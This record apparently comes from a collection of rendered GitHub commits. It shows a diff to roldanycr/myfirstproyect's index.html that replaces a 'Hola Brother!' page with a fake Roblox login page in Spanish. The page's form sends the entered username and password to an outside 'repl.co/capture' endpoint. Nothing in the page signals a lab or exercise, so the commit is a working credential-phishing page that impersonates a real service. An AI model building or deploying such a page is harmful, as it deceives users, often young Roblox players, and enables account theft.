

Before and after one commit to roldanycr/myfirstproyect, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-958 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,9 +1,59 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Hola Brother!</title>
+    <title>Roblox - Inicio de Sesión</title>
+    <style>
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #f4f4f4;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            height: 100vh;
+            margin: 0;
+        }
+        .login-container {
+            background: white;
+            padding: 20px;
+            border-radius: 5px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+        }
+        .login-container h2 {
+            margin-bottom: 20px;
+        }
+        .login-container input {
+            width: 100%;
+            padding: 10px;
+            margin: 5px 0 20px 0;
+            display: inline-block;
+            border: 1px solid #ccc;
+            box-sizing: border-box;
+        }
+        .login-container button {
+            width: 100%;
+            background-color: #005f9e;
+            color: white;
+            padding: 14px 20px;
+            margin: 8px 0;
+            border: none;
+            border-radius: 4px;
+            cursor: pointer;
+        }
+        .login-container button:hover {
+            opacity: 0.8;
+        }
+    </style>
 </head>
 <body>
-    <h1>Hola Brother!</h1>
+
+<div class="login-container">
+    <h2>Iniciar Sesión</h2>
+    <form action="https://your-repl-id.repl.co/capture" method="post">
+        <input type="text" name="username" placeholder="Nombre de usuario" required>
+        <input type="password" name="password" placeholder="Contraseña" required>
+        <button type="submit">Iniciar Sesión</button>
+    </form>
+</div>
+
 </body>
 </html>
```
